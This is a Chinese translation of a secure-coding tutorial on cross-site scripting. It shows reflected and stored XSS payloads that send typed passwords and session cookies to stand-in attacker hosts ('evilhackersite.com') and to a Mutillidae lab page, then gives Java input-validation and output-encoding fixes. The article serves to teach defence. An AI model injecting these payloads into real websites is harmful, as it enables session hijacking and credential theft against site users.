








# 如何编写安全的代码？

> 原文：<https://infosecwriteups.com/how-to-write-secure-code-b2757b59cd4b?source=collection_archive---------0----------------------->

## 保护自己免受跨站点脚本攻击！

在过去的几个月里，我一直致力于安全代码实践，并试图与社区讨论易于采用的方法。我们每天看到的不安全代码的数量确实令人震惊，我们都同意“预防胜于治疗”。

保护我们的代码和应用程序安全的最好方法是从一开始就对它们进行适当的编程。编写一个安全的代码并不困难也不复杂，它所需要的只是程序员知道在哪里包含安全检查。这只是几行额外代码的问题，但仅此一项就可以抵御针对您的应用程序的大量攻击。

# 让我们开始吧！

所以，这篇特别的文章“如何编写安全的代码？”专注于跨站点脚本问题。

每当应用程序获取不受信任的数据并在没有适当验证和转义的情况下将其发送到 web 浏览器时，就会出现跨站点脚本缺陷。XSS 允许攻击者在受害者的浏览器中执行脚本，这可以劫持用户会话，破坏网站或将用户重定向到恶意网站。

下面的代码是 XSS 攻击发生的一个例子，它的输入没有经过处理，直接传递给参数。

```
String firstNameParameter=(String)request.getParameter(“firstName”);
```

用户输入的值立即存储在本地变量 firstNameParameter 中，然后在 HTTP 响应中将该值发送到浏览器，不进行任何输出编码。

在本文中，我将介绍几种不同类型的攻击和方法，您每天都会遇到的攻击和方法，以及您可以用来防止它们的方法

## 1.反映了 XSS

一次只能有一个受害者。我们可以看到，当一个恶意的有效载荷传递给受害者时，他们最终会点击恶意的 URL，并让黑客访问他们的 cookies 和其他数据。

这里是一个有效载荷的例子，如果受害者执行，攻击者可以访问他们的详细信息。

```
[https://mybank.com/submitForm.do?customer=
<script>
function+stealCredentials()](https://mybank.com/submitForm.do?customer=%3Cscript%3Efunction+stealCredentials())
{
location.href=“[www.evilhackersite.com](http://www.evilhackersite.com)?name=document.myform.username.value
&password=document.myform.pword.value”
}
</script>// the whole script is to be passed as an url. 
// it has been presented as such to enhance readability. 
```



另一个例子是当我们访问一个密码生成器的网页时。乍一看，这个页面并不容易受到任何攻击，因为我们所要做的就是按下“生成密码”按钮。

我们打开我们的 burp 套件，在代理选项卡中拦截请求。我们将它发送到 repeater 选项卡，以检查请求查询和相应的响应查询。下图是我们传递的第一个请求，我们可以看到，我们在请求查询中传递的用户名在响应查询中得到了反映。



现在我们知道，用户名被反射回我们，我们可以用我们的有效载荷注入值字段。现在唯一需要做的是我们如何设计有效载荷，这样我们就可以按计划执行我们的命令。

```
";catch(e){}alert('injected');try(a="      // our payload
```



上图显示了请求和响应查询以及附加的有效负载，看起来已经成功了。我们对整个负载进行 url 编码，然后通过代理选项卡再次发送，并检查我们在浏览器中收到的结果。



在代理选项卡中传递有效负载



正如预期的那样，我们收到了在我们的浏览器中弹出的警告框，显示攻击有效载荷已经工作。

## 2.存储的 XSS

当代码被注入到托管的服务器端程序中时，就会发生这种攻击。因此每次用户导航到特定的网页或链接时，他们都是存储 XSS 攻击的受害者。

如果页面上的图像以这样一种方式注入，即每当页面加载时，加载恶意脚本(如下所示)而不是图片，然后抓取用户的 cookie，则存储 XSS 攻击可以如下进行。

```
<script>newImage().src=“[http://myevilhackersite.com/login.cgi?c=“+encodeURI(document.cookie)](http://myevilhackersite.com/login.cgi?c=%E2%80%9C+encodeURI(document.cookie));</script>// our payload
```



存储的 XSS 的另一个例子如下

在我们旁边的登录页面中，我们输入 test 作为用户名和密码。我们做的每一件事都记录在日志数据库里。我们可以继续检查日志数据库，在那里我们可以看到测试用户名的失败登录尝试被注册。因此，如果用户名没有被清除，而是直接保存在日志中，那么我们就可以利用这一点来发起存储 XSS 攻击。



我们在用户名字段中传递以下有效载荷，看看我们是否能够执行 XSS 攻击。

```
<script>document.location=“[http://192.168.56.103/mutillidae/index.php?page=capture-data.php&c=“+document.cookie</script>](http://192.168.56.103/mutillidae/index.php?page=capture-data.php&c=%E2%80%9C+document.cookie%3C/script%3E)
```

一旦我们在用户名框中传递我们的有效负载并打开日志文件，我们就可以清楚地看到 cookies 按照我们的预期存储在那里。



因此，现在每当有人打开日志文件时，他们的 cookie 值将被发送到 capture-data.php 页面，数据将被存储在那里。

# 捍卫你的代码！

我们已经详细讨论了如何利用我们的代码对网站进行恶意的 XSS 攻击。我们可以采取的步骤如下

## 输入验证

*   验证应该只在服务器端进行，不应该在客户端进行。
*   白名单和黑名单的字符，我们可以允许用户使用应该这样做。我们可以利用常规正则表达式或基于框架的反 XSS 函数来增强安全性。
*   代码示例

而不是直接使用和接收参数“firstName”。

```
String firstNameParameter=(String)request.getParameter(“firstName”);
```

*   在给变量 firstNameParameter 赋值之前，先通过正则表达式传递它

```
private final String MY_DATAVALIDATION_WHITELIST = “[a-zA-Z]*”;public boolean mustPassWhiteListCheck(String clientSideParameter) throwsWhiteListFailureException{
boolean checkValue=false;checkValue = Pattern.matches(MY_DATAVALIDATION_WHITELIST, clientSideParameter); if ( checkValue == false )
 {
   throw new WhiteListFailureException (“Possible Attack!!!”);
 }
return checkValue;
}
```

## 输出编码

*   中和 HTTP 响应中包含的任何被误解的字符
*   将字符转换为数据，而不是执行恶意脚本
*   URL 编码-用一个或多个三元组字符替换字符串中的字符
*   三元组:%后跟两个其他十六进制数，例如:%2e 这是“.”
*   输出编码代码示例

下面的代码是不执行编码的代码。

```
System.out.println(“<HTML><HEAD><BODY>Hello + “ + request.getParameter(“firstName”) + “</BODY></HTML>”);
```

现在，我们将对上面的代码做一些小的修改，在输入被我们的 regex 杀毒器杀毒之后，我们将把这个值传递给 print 语句。

```
System.out.println(“<HTML><HEAD><BODY>Hello + “ + Encoder().encodeForHTML(sanitisedFirstNameVariable) + “</BODY></HTML>”);
```

*   输出编码网页上下文

至少我们需要对这些值进行 URL 编码:-

a) HTML 正文

b) HTML 属性

c)网址

d) JavaScript

e)级联样式表

# 道德的

XSS 是一个危险的攻击，对 XSS 的搜索可以自动化。存储和反射的 XSS 会对应用程序造成非常严重的损害。防止这些攻击的最基本的方法之一是执行适当的输入验证和输出编码。正确实施这两个功能可以帮助我们将 XSS 攻击减少到零。

## 阅读我关于“安全编码实践”的其他文章

> ~注射攻击—[https://bit.ly/2OqkRv5](https://medium.com/bugbountywriteup/how-to-write-secure-code-against-injection-attacks-aad4fff058da)
> 
> ~中断认证和会话管理—【https://bit.ly/2uutoUO 

**如果你喜欢，请鼓掌让我们合作吧。获取、设置、破解！**

网址:[aditya12anand.com](https://www.aditya12anand.com/)|捐赠:[paypal.me/aditya12anand](https://paypal.me/aditya12anand)

电报:[https://t.me/aditya12anand](https://t.me/aditya12anand)

推特:[twitter.com/aditya12anand](https://twitter.com/aditya12anand?source=post_page---------------------------)

领英:[linkedin.com/in/aditya12anand/](https://www.linkedin.com/in/aditya12anand/?source=post_page---------------------------)

电子邮件:aditya12anand@protonmail.com

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)